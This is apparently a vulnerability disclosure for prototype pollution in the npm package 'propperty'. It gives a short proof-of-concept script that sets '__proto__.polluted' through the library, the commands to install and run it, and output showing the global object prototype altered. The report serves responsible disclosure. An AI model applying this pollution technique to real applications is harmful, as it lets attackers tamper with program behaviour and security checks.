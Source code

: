 # Description

Prototype Pollution in propperty

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var propperty = require("propperty")
var obj = {}
console.log("Before : " + {}.polluted);
propperty(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i propperty # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
